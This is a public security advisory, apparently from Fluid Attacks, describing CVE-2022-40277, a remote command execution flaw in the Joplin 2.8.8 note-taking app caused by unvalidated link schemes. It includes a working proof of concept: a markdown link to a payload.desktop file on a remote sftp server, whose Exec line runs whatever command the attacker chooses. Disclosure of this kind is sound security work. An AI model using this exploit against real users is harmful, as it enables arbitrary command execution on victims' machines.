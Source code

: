 ```yaml
---
slug: advisories/skrillex/
title: Joplin 2.8.8  -  Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: skrillex
product: Joplin 2.8.8
date: 2022-09-26 05:00 COT
cveid: CVE-2022-40277
severity: 7.7
description: Joplin 2.8.8  -  Remote Command Execution
keywords: Fluid Attacks, Security, Vulnerabilities, Joplin
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Joplin 2.8.8  -  Remote Command Execution              |
| **Code name**         | [Skrillex](https://en.wikipedia.org/wiki/Skrillex)     |
| **Product**           | Joplin                                                 |
| **Affected versions** | Version 2.8.8                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 7.7                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-40277](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40277)                        |

## Description

Joplin version 2.8.8 allows an external attacker to execute arbitrary
commands remotely on any client that opens a link in a malicious
markdown file, via Joplin. This is possible because the application
does not properly validate the schema/protocol of existing links in
the markdown file before passing them to the shell.openExternal
function.

## Vulnerability

This vulnerability occurs due to improper scheme/protocol validation
of external URLs. Here is a small example to give you a better
understanding of vulnerability.

![image](https://user-images.githubusercontent.com/51862990/189775403-75f4e110-50f0-4afb-8cd6-63dd2c651b16.png)

Basically what the application is doing is sending to
shell.openExternal(url), any url present in the markdown
file.

## Exploitation requirements

To achieve the RCE, the attacker will abuse certain schemes/protocols.
Some of these only work on windows, others on MACos, others only work
correctly under certain specific Linux distributions. In my case, I
used Xubuntu 20.04 (Xfce) to simulate a victim. I chose this
distribution because in its default configuration it executes the
payload.desktop file after mounting the remote location where the
payload file is located. In other Linux distributions by default these
files are not executed once the remote location is mounted.

In the resources section I will provide you with support material so
that you can understand in greater depth what I have just explained.

## Exploitation

To exploit this vulnerability, you must send the following file to a
user to open with Joplin:

### exploit.md

```markdown
[exploit](sftp://user@server/uploads/payload.desktop)
```

### payload.desktop

In the Exec parameter you put the command you want the victim to execute.

```txt
[Desktop Entry]
Exec=xmessage "RCE by cbelloatfluid"
Type=Application
```

## Evidence of exploitation

![RCE-Joplin](https://user-images.githubusercontent.com/51862990/189775676-83553248-0452-4df4-a9c1-7b65bbbe4792.gif)

## Our security police

We have reserved the CVE-2022-40277 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Joplin 2.8.8

* Operating System: GNU/Linux - Xubuntu 20.04 (Xfce)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/laurent22/joplin>

## Timeline

<time-lapse
  discovered="2022-09-07"
  contacted="2022-09-08"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
